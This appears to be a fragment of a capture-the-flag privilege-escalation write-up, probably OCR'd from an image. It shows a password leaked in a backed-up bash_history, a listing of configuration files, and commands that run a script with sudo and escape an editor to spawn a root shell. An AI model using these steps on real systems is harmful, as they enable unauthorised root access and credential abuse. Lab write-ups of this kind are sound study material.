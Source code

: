 ```
/var/backups/mike_home_backup/.bash_history:sudo -l b3stpassw0rdbr0xx
```

-rw-r--r-- 1 root root 71817 Oct  7  2020 /etc/php/7.2/apache2/php.ini
-rw-r--r-- 1 root root 71429 Oct  7  2020 /etc/php/7.2/cli/php.ini
-rw-r--r-- 1 root root 71817 Oct  7  2020 /etc/php/7.2/fpm/php.ini
-rw-r--r-- 1 root root 869 May  3  2021 /etc/mysql/mariadb.cnf


```
sudo /bin/bash /opt/rootkit.sh
^R^X
reset; sh 1>&0 2>&0
```

```
read
^R^X
reset; sh 1>&0 2>&0
```
